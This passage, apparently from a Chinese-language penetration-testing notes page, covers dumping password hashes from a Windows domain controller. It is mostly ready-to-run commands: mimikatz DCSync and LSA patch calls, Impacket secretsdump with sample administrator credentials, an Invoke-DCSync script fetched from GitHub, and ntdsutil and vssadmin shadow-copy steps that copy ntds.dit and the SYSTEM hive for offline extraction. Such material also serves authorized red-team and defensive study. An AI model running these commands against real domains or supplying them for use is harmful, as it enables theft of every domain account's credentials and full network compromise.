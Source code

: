 #### 1.5.1 域控上的哈希

##### 1.5.1.1 mimikatz

**方法一**

```cmd
.\mimikatz.exe "lsadump::dcsync /domain:corp.cowbot.com /all /csv" "exit"
```

![2021-07-09_171040](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_171040.jpg)

**方法二**

```cmd
.\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"
```

##### 1.5.1.2 secretsdump

```cmd
python secretsdump.py administrator:12345678@192.168.55.8
```



##### 1.5.1.3 Invoke-DCSync

获取地址：https://raw.githubusercontent.com/Al1ex/Invoke-DCSync/master/Invoke-DCSync.ps1

```powershell
Import-Module .\Invoke-DCSync.ps1
Invoke-DCSync -PWDumpFormat
```

##### 1.5.1.4 ntds.dit文件获取

使用域控上的ntds.dit文件同样能得到哈希。先从域控上获得ntds.dit的副本，之后再获取system.hive（存放着ntds.dit的访问密钥，），之后使用其他工具从ntds.dit中提取哈希。

**方法一**

```cmd
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {**********}" quit quit
copy C:\$SNAP_****_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
ntdsutil snapshot "unmount {**********}" quit quit
ntdsutil snapshot "delete  {**********}" quit quit

reg save hklm\system c:\SYSTEM
```

![2021-07-09_143402](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_143402.jpg)

![2021-07-09_143508](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_143508.jpg)

**方法二**

```cmd
vssadmin create shadow /for=c:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit c:\ntds.dit
vssadmin delete shadows /for=c: /quiet
esentutl /p /o c:\ntds.dit
del *.cab

reg save hklm\system c:\SYSTEM
```

